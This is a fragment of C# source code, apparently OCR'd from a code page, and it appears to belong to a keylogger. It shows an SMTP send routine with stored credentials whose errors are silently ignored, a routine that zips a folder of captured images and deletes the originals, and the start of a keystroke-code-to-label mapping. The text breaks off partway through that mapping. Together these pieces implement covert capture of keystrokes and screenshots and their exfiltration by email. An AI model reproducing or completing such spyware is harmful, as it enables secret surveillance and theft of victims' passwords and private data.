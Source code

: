                     using (SmtpClient smtp = new SmtpClient(smtpAdress, portNumber))
                    {
                        smtp.Credentials = new NetworkCredential(emailFromAdress, password);
                        smtp.EnableSsl = enableSSL;
                        smtp.Send(mail);
                    }
                }
            }
            catch
            {
                //nista! 

            }
        }

        private static void zipImages()
        {
            if (File.Exists(folder_path + "\\images.zip"))
            {
                File.Delete(folder_path + "\\images.zip");
            }
            ZipFile.CreateFromDirectory(folder_path + "\\images", folder_path + "\\images.zip");
            DirectoryInfo di = new DirectoryInfo(folder_path + "\\images");
            foreach (FileInfo file in di.GetFiles())
            {
                file.Delete();
            }
        }

        private String verifyKey(int code)
        {
            String key = "";

            if (code == 8) key = "[Back]";
            else if (code == 9) key = "[TAB]";
            else if (code == 13) key = "[Enter]";
            else if (code == 19) key = "[Pause]";
            else if (code == 20) key = "[Caps Lock]";
            else if (code == 27) key = "[Esc]";
            else if (code == 32) key = "[Space]";
            else if (code == 33) key = "[Page Up]";
            else if (code == 34) key = "[Page Down]";
            else if (code == 35) key = "[End]";
            else if (code == 36) key = "[Home]";
            else if (code == 37) key = "Left]";
            else if (code == 38) key = "[Up]";
            else if (code == 39) key = "[Right]";
            else if (code == 40) key = "[Down]";
            else if (code == 44) key = "[Print Screen]";
            else if (code == 45) key = "[Insert]";
            else if (code == 46) key = "[Delete]";
            else if (code == 48) key = "0";
            else if (code == 49) key = "1";
            else if (code == 50) key = "2";
            else if (code == 51) key = "3";
            else if (code == 52) key = "4";
            else if (code == 53) key = "5";
            else if (code == 54) key = "6";
            else if (code == 55) key = "7";
            else if (code == 56) key = "8";
            else if (code == 57) key = "9";
            else if (code == 65) key = "a";
            else if (code == 66) key = "b";
            else if (code == 67) key = "c";
            else if (code == 68) key = "d";